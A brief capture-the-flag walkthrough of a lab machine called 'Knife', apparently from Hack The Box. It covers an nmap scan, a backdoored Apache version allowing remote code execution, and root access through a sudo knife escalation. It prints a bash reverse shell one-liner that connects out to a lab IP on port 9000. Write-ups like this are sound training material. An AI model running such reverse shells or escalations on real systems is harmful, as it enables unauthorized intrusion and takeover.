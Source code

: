 # Kinfe

Nmap scan

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

# Site exploitation

Googling this version of apache we can see someone left a backdoor in it that allows for RCE. This was really fasicinating to read up about and incredibly easy to exploit see [this ](https://www.exploit-db.com/exploits/49933)on exploit db and the bellow wireshark.

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Now that we know we have code exectution we can run a simple reverse shell like this

```
bash -c 'bash -i >& /dev/tcp/10.10.16.5/9000 0>&1'
```

And we have a shell and the user flag!!

# Priv esc

This was a very simple one. Running sudo -l shows us we can run knife as root we can use [this ](https://gtfobins.github.io/gtfobins/knife/)priv esc to gain a root shell.

And PWNDDDD!!!
